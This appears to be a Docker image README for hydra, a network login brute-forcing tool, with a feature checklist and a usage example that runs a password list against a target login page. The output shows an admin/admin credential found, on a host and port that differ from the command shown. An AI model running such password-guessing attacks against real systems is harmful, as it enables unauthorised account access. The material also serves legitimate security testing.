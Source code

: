hydra
=====

A very fast network logon cracker which support many different services.

- [x] openssl
- [x] idn
- [x] curses
- [x] pcre
- [x] Postgres
- [x] SVN
- [ ] firebird
- [x] MYSQL client
- [ ] AFP
- [ ] NCP
- [ ] SAP/R3
- [x] libssh
- [ ] Oracle
- [ ] GUI req's
- [x] Android specialities
- [x] secure compile option support in gcc


```
$ docker run --rm -it -v `pwd`:/data -w /data vimagick/hydra

>>> cat passwd.txt
    123456
    admin
    ...

>>> hydra -l admin -P passwd.txt -o hacked.txt http://www.target.com/login.php
    [DATA] max 1 task per 1 server, overall 64 tasks, 3 login try (l:1/p:1), ~0 tries per task
    [DATA] attacking service http-get on port 2812
    [2812][http-get] host: ss.easypi.info   login: admin   password: admin
    1 of 1 target successfully completed, 1 valid password found

>>> cat hacked.txt
    [2812][http-get] host: ss.easypi.info   login: admin   password: admin
```
